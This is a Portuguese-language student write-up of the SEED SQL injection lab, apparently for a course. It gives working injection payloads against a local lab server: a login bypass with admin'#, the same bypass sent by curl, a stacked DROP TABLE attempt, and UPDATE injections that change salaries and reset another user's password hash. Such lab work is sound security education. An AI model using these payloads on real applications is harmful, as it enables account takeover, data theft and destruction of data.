



# SQL Injection Attack LAB

## Setup

Para começar a realizar este lab começamos por adicionar uma nova entrada nos hosts conhecidos pela máquina virtual, <b>www.seed-server.com</b>, <b>sudo nano etc/hosts</b> e adicionando <b>10.9.0.5 www.seed-server.com</b>. Depois, executamos os containers usando <b>dcbuild</b> <b<#docker-compose build</b> e <b>dcup</b> <b> #docker-compose up </b>. Por último executamos <b>mysql -u root -pdees</b> e <b>use sqllab_users</b> para executar como superuser e selecionar o schema.


## Tasks

### Task 1: Get Familiar with SQL Statements

A tarefa consistia em selecionar os dados do utilizador "Alice"

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

Obtendo estes dados:




###  Task 2: SQL Injection Attack on SELECT Statement

#### Task 2.1 - Login in adminstrator mode from webpage

Exploramos o site <b> "www.seed-server.com" </b> disponibilizado pelo Docker, assim como o ficheiro <b>unsafe_home.php</b>. Visualizamos que a query era frágil uma vez que o servidor vai criar dinamicamente o comando com as strings não sanitizadas provenientes do input do utilizador.

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password FROM credential WHERE name='admin'# and Password=’$hashed_pwd’
```
Assim, conseguimos realizar o login na conta do admin, obtendo assim todos os dados dos usuários.



#### Task 2.2 - Login in adminstrator mode from command line

Realizamos o mesmo tipo de ataque usando um pedido GET através do comando:

```bash
curl "www.seed-server.com/unsafe_home.php?username=user&Password=pass"
```

Usando o mesmo input da tarefa anterior, mas com a codificação URL (%27 = ' e %23 = #), geramos o comando malicioso:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Isso deu-nos acesso ao HTML da página contendo informações pessoais dos usuários.


#### Task 2.3 - Append a new SQL statement

Adicionamos comandos SQL usando ";". Tentamos, por exemplo, excluir a tabela de credenciais:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```

Mas a operação falhou devido a uma proteção na extensão MySQL usada pelo PHP do servidor, que impede múltiplas queries.




### Task 3: SQL Injection Attack on UPDATE Statement

#### Task 3.1 - Modify your own salary

Depois de logar com uma conta do sistema (por exemplo, username = Alice, password = alice1), acessamos uma página de edição de dados que é gerida a partir do ficheiro disponibilizado <b<unsafe_edit_backend.php</b>. Usamos o campo "phone number" para manipular o salário:

```sql
910123125',Salary='1111111
```

Isso resultou na execução da seguinte instrução SQL, que também alterou o salário:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='910123125',Salary='1111111' WHERE ID=$id;
```

Assim, a variável salário foi alterada para o valor escolhido.


#### Task 3.2 - Modify other people’ salary

Para mudar o salário de outro usuário, criamos uma nova cláusula WHERE. Desta maneira, comentamos a que estava no sistema para não interferir na pesquisa.

```sql
910123125',Salary='-111' WHERE Name='Boby'#
```

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='910123125',Salary='-111' WHERE Name='Boby'# WHERE ID=$id;
```
Alterando assim o salário do Boby.

#### Task 3.3 - Modify other people’ password

Para mudar a senha de outro usuário, ciframos a nova senha com SHA1. Por exemplo, para a senha <b>teste</b>, o hash é <b>2e6f9b0d5885b6010f9167787445617f553a735f</b>.

```sql
910123124', password='2e6f9b0d5885b6010f9167787445617f553a735f' WHERE name='Boby'#
```

Com este input, o servidor executou o seguinte código:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
PhoneNumber='910123125', password='2e6f9b0d5885b6010f9167787445617f553a735f' WHERE name='Boby'# WHERE ID=$id;
```

E assim conseguimos entrar com sucesso na conta do Boby.